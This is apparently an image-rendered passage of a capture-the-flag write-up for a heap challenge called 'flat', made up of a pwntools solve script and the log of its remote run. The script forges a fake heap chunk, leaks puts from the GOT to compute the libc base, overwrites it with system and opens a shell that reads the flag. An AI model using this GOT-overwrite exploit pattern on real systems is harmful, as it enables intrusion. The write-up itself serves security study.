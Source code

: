 ```python
payload = (
    b'D'*(0x70-0x8) # fill chunk
    + p64(0x111)
    + p64(BUF+0x10*11) # fake chunk addr
    + b'F'*(0x8-0x1)
)
assert len(payload) < 0x100
edit(0, payload)
malloc(1, 0x100)
malloc(2, 0x100) # points to fake chunk on buf

edit(2, p64(0x20) + p64(e.got.puts))
leak = u64(show(11).ljust(0x8, b'\0'))

libc.address = 0
libc.address = leak - libc.sym.puts
log.info(f'Libc: {hex(libc.address)}')

edit(2, p64(0x20) + p64(e.got.puts))
edit(11, p64(libc.sym.system)[:-1])

edit(0, b'/bin/sh')
show(0, expect=False)

p.interactive()
```

```
$ python3 solve.py REMOTE
[*] '[REDACTED]/flat_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '[REDACTED]/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chall.geekctf.geekcon.top on port 40246: Done
[*] Libc: 0xa7f43534fb000
[*] Switching to interactive mode
$ ls
flag
flat
start.sh
$ cat flag
flag{learning_deflat_trick_to_defeat_ollvm}
```
